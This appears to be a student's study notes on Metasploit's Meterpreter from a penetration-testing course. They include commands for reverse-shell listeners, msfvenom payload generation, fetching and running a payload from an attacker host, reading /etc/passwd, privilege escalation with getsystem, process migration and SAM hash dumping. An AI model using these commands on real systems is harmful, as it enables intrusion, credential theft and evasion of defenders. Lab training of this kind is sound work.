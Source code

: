 	- dynamically extended at run-time
	- payload resides entirely in memory on the target
	- communication is encrypted by defaul
	- All payloads are staged
		- In situations where our bandwidth is limited or we want to use the same payload to compromise multiple systems in an assessment, a non-staged Meterpreter payload comes in quite handy.

#### Small Example
1. Start a multi/handler listener with the corresponding settings in Metasploit. In addition, we'll **set** the option **ExitOnSession** to **fals**e. It specifies that the listener stays active for new sessions without the need to restart it for every incoming session.
    - `sudo msfconsole -q`
    - `use multi/handler`
    - `set payload windows/x64/meterpreter/reverse_tcp`
    - `set LHOST 192.168.119.5`
    - `set LPORT 443`
    - `set ExitOnSession false`
    - `run -j`
### Set up And Run commands
	- After selecting the 64-bit non-staged version of _meterpreter_reverse_tcp_ as payload, we can review its options
	- `run`
	- `help`
	- start gathering information
		- `sysinfo
		- `getuid
	- *channels*
		- when interacting with a system within a session
	- start interactive shell
		- `shell`
	- execute command in the context of a *channel*
		- `id`
	- Background the *channel*
		- `Ctrl + Z`
	- Start a second interactive shell, execute a command, and also, background the channel.
		- `shell`
		- `whoami`
		- `Ctrl + z`
	- List all active channels
		- `channel -l`
	- Interact with channel 1 again
		- `channel -i 1`
		- `id`
	- Review commands
		- `help`
	- Use the _download_ and _upload_ commands from the category _File system Commands_ to transfer files to and from the system.
		- change the local directory on our Kali machine to **/home/kali/Downloads**
			- `lcd /home/kali/Downloads`
		- Download **/etc/passwd** from the target machine to our Kali system.
			- `download /etc/passwd`
		- **cat** the file on local system
			- `lcat /home/kali/Downloads/passwd`
		- Upload *unix-privesc-check* tp **/tmp**
			- ```upload /usr/bin/unix-privesc-check /tmp/```
		- Check
			- `ls /tmp`
		- [Note:]
			- [If our target runs the Windows operating system, we need to escape the backslashes in the destination path with backslashes like "\\"]
	- let's use another 64-bit Linux Meterpreter payload
		- `exit`
		- `show payloads`
	- Use HTTPS connection meterpreter payload
			- As the traffic itself is encrypted with SSL/TLS, defenders will only obtain information about HTTPS requests
		- `set payload 10`
		- `show options`
		- `run`
		- will seem like regular HTTPS traffic
		- if they would check the address of the communication endpoint (our Kali machine in this example), they'd only get a _Not found_ page with HTTP code 404 in the browser.
	- We should always attempt to obtain an initial foothold with a raw TCP shell and then deploy a Meterpreter shell as soon as we have disabled or bypassed potential security technologies.

### Core Meterpreter Post-Exploitation Features

Example:
`Let's assume we already gained an initial foothold on the target system and deployed a bind shell as way of accessing the system.`
- Create a Windows rev shell exe binary
	- ```msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.196 LPORT=443 -f exe -o met.exe```
- Launch mulit/handler and set payload and options
	- ```set payload windows/x64/meterpreter_reverse_https```
	- `set LPORT 443`
	- `run`
- start Py server to serve **met.exe**.
- Connect to bind shell
	- ```nc 192.168.249.223 4444```
- Download **met.exe**
	- `powershell`
	- ```iwr -uri http://192.168.45.205:8000/binary.exe -Outfile binary.exe```
	- `.\met.exe`
- Start exploring post-exploitation commands and features.
	- **idletime**
		- It displays the time for which a user has been idle.
		- first commands as it indicates if the target machine is currently in use or not.
	- **getsystem**
		- Attempts to automatically elevate our permissions to _NT AUTHORITY\SYSTEM_.
				- uses various techniques using named pipe impersonation and token duplication
				- attempting to leverage _SeImpersonatePrivilege_[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/the-metasploit-framework/performing-post-exploitation-with-metasploit/core-meterpreter-post-exploitation-features#fn1) and _SeDebugPrivilege_.
					- by using _Named Pipe Impersonation (PrintSpooler variant)_
	- **shell**
		- interactive shell
		- `whoami /priv`
			- Ex. user _luiza_ has _SeImpersonatePrivilege_ assigned
		- Ex:
			- **getuid**
			- **getsystem**
			- **getuid** 
	- **migrate**
		- move the execution of our Meterpreter payload to a different process
			- so process doesnt get close or removed 
		- can only migrate same (or lower) integrity and privilege level.
		- Ex:
			- `ps`
			- `migrate 8052
			- `getuid` -> new user (meterpreter running in the context of new process)
	- **execute**
		- creates a new process by specifying a command or program.
		- Example: let's start a hidden Notepad process and migrate to it as user _offsec_
			- ```execute -H -f notepad```
				- -H = hidden process
				- -f = specify command or program
			- `migrate 2720`
				- migrating to the newly spawned process
	- **hashdump**
		- dumps the contents of the SAM database
	- **screenshare**
		- displays the target machine's desktop in real-time.